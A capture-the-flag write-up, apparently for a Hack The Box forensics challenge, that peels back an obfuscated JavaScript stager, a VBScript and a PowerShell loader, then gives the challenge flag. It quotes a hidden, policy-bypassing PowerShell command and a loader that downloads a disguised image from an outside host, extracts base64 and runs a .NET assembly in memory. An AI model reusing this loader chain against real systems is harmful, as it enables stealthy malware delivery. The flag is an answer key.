# Getting Closer

## Scenario:

Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. Note:* Make sure you edit /etc/host so that any hostnames found point to the Docker IP.

## Given artifacts

A javascript file, which is obfuscated

## Solving process

I perform some find-replace recipes on cyberchef to figure out the main use of this script. It turns out to be just a stager, and the main payload will be downloaded through this one:



Replace the url with the IP address of the docker instance, we get that malicious .vbs file. This vbscript is terribly obfuscated, let carefully peel it layer by layer:



This is the first variable that is used later, don't be scared by the gibberish name and value, it will definitely be replaced, decoded or something like that to recover the payload before it can run



The `ESy..` variable initiates a WScript object, and `tomq..` is the main variable in this script, as I can see it is concatenated with a lot of gibberish bas64-like string afterwards, and initially it declares a variable $Codigo with no value, and this command is concatenated as reversed string



This is reverse version of : `$OWjuxD = [System.Text.encoding]::Unicode.GetString`

After being concatenated with a bunch of base64 string, `tomq..` finally drop its disguise as a series of Replace() function happens, replacing junk pattern with vowels:



What is more, the `tomq..` variable is further weaponized with: `powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD`. And finnaly, `ESy...` the wscript object run the command inside that `tomq..` string



Now that we know the flow of this malware, let's switch to a VM to reveal the true thing behind this camouflage, definitely I will remove the Run command and add print function to exhibit `tomq..`'s value



At first I tried this, assuming `ESy..` is a WScript object, thus it can run Echo command, but I was wrong, the echo command belongs to the root WScript object, and I should have put WScript.Echo instead:



Now run it inside VM:





`$Codigo` holds that massive base64 string, then it is modified with a replace operation before decoded and executed, let's see what is the true payload behind it:



```powershell
$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';
$webClient = New-Object System.Net.WebClient;
$imageBytes = $webClient.DownloadData($imageUrl);
```
The script reaches out to a specific url and downloads what appears to be a jpeg image, then stores the raw downloaded bytes into a variable.

```powershell
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);
# ... string manipulation logic ...
$base64Command = $imageText.Substring($startIndex, $base64Length);
```

The script doesn't treat the downloaded file as an image. Instead, it converts the raw bytes into plain text. It assumes that the "image" file actually contains a hidden text block sandwiched between two specific markers: <<BASE64_START>> and <<BASE64_END>>. It finds these markers, calculates their positions, and carves out the string hidden between them. This is a simple form of steganography or payload hiding.

```powershell
$commandBytes = [System.Convert]::FromBase64String($base64Command);
$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);
$type = $loadedAssembly.GetType('Fiber.Home');
$method = $type.GetMethod('VAI').Invoke($null, [object[]] (...))
```

Then the base64 strings is converted back to raw bytes, and is loaded directly into the process's memory by Reflection. After that, the script hunts for a class named Fiber.Home, then find a method named VAI and executes it, passing an array of argument into it.

If we decode the base64-like argument, we will get this link:



That link contains an API key, and I'm quite sure we cannot access it now, so let's ignore it and focus on the former url, replace that link with the docker instance's IP:



At first, I thought this should be a text file in disguise as an image, but it turns out to be ... PNG image. Data in png image ? Well, long time no stegnography:



Copy that massive base64 string to cyberchef, we get an executable file:



At the end of the file is the flag:



I also try to reverse-engineer it with dnSpy and dotPeek, generally it is a program to set up C2 communication, but I do not and cannot dive deeper into it, unless forced to do so. 

`Flag: HTB{0n3_St3p_cl0s3r_t0_th3_cur3}`